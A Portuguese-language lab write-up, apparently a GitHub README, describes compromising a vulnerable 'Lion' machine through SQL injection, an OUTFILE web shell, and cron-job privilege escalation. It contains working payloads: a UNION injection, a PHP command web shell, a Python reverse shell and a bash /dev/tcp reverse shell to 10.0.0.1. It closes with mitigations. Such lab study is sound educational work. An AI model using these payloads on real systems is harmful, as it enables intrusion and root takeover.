

# Lab Lion - Exploração Avançada de Vulnerabilidades

 
 


## 📌 Visão Geral
Exploração completa de um ambiente vulnerável contendo múltiplas falhas críticas que permitiram:
1. **SQL Injection → RCE** (Injeção SQL com Execução Remota de Código)
2. **Upload de Web Shell** (Backdoor PHP)
3. **Escalonamento de Privilégios via Cron Jobs** (Root Access)

> ⚠️ **Nota Ética**: Todas as técnicas foram realizadas em ambiente controlado para fins educacionais.

## 🔍 Sumário Executivo

| Item | Detalhes |
|------|----------|
| **Data** | [Inserir data] |
| **Tempo de Exploração** | 2 horas |
| **Ferramentas** | Nmap, Burp Suite, Netcat, LinPEAS |
| **CVEs Relacionados** | CWE-89 (SQLi), CWE-434 (Upload Arbitrário) |

## 🎯 Metodologia

### 1. Reconhecimento Inicial
```bash
sudo nmap -p- -Pn -min-rate 300 -oG Allports 192.168.1.100
```
**Resultados:**
- Porta 80 (HTTP): Aplicação web vulnerável
- Porta 3306 (MySQL): Banco de dados exposto

### 2. Exploração de SQL Injection
**Payload inicial para detecção:**
```sql
' UNION SELECT 1,2,3,4,5,6,7#
```
**Exploração avançada:**
```sql
' UNION SELECT 1,@@version,3,4,5,6,7#
```
**Resultado:** MariaDB 5.5.68

### 3. Conversão para RCE via OUTFILE
```sql
' UNION SELECT 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7 
INTO OUTFILE "/var/www/html/includes/cmd.php"#
```
**Webshell acessível em:**
```
http://192.168.1.100/includes/cmd.php?cmd=id
```

### 4. Estabelecimento de Reverse Shell
**Payload Python:**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### 5. Escalonamento de Privilégios
**Vulnerabilidade encontrada:**
- Cron job executando como root:
```bash
/opt/lion/lion.backup.sh
```
**Exploração:**
```bash
echo "bash -i >& /dev/tcp/10.0.0.1/1337 0>&1" >> /opt/lion/lion.backup.sh
```

## 🛠️ Fluxo Completo de Ataque



## 📸 Evidências

1. **SQL Injection**:
   

2. **Web Shell**:
   

3. **Root Access**:
   

## 🛡️ Lições Aprendidas

### Vulnerabilidades Críticas
1. **Input não sanitizado** permitiu SQL Injection
2. **Configuração insegura** do MySQL (`secure_file_priv` desabilitado)
3. **Permissões inadequadas** em scripts agendados

### Mitigações Recomendadas
1. Implementar prepared statements
2. Restringir permissões de escrita no filesystem
3. Revisar todos os cron jobs com privilégios elevados

## 🧠 Habilidades Demonstradas

| Técnica | Nível | Ferramentas |
|---------|-------|------------|
| Enumeração de Rede | ★★★☆☆ | Nmap |
| Exploração SQLi | ★★★★☆ | Burp Suite |
| Pós-Exploração | ★★★★☆ | Netcat, LinPEAS |
| Análise de Vulnerabilidades | ★★★★☆ | Manual |

## 🔗 Recursos Úteis
- [OWASP SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Linux Privilege Escalation Checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)

---